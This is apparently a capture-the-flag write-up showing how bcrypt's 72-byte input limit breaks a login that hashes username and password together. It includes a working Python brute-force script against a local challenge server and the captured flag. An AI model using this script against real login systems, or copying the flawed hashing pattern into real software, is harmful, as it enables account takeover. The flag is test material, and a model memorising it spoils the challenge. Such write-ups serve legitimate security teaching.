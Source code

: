 ```yaml
---
created: 2025-03-02T07:48
updated: 2025-03-18T02:31
solves: 7
points: 450
---
```


The 'trick' used created a vulnerbility.

> higgsloitadmin: Instead of hashing the password only, we append it to the username and hash the result.

bcrypt only processes the first 72 bytes of its input, so if the username is long (let's say 71 bytes), we only have to brute force 1 byte of information.

```python
import string
import requests

target = "http://127.0.0.1:16605"


def try_login(username, password):
    return requests.post(target + "/api/login", json={"username": username, "password": password}).json()


user = "broootheeer.meee.iii.duuupliiicaaateee.myyy.voooweeels.threee.tiiimeees"
password = "a"*16
for c in string.ascii_lowercase+string.digits:
    print(f"Trying {c}")
    res = try_login(user, c*16)
    if res['success']:
        print(f"Found: {c}")
        password = c*16
        break

s = requests.Session()
s.post(target + "/api/login", json={"username": user, "password": password})

print(s.get(target + "/flag").text)
```

```flag
ATHACKCTF{tldr_BCrypt_i$_limit3d_to_72_8yt3s}
```
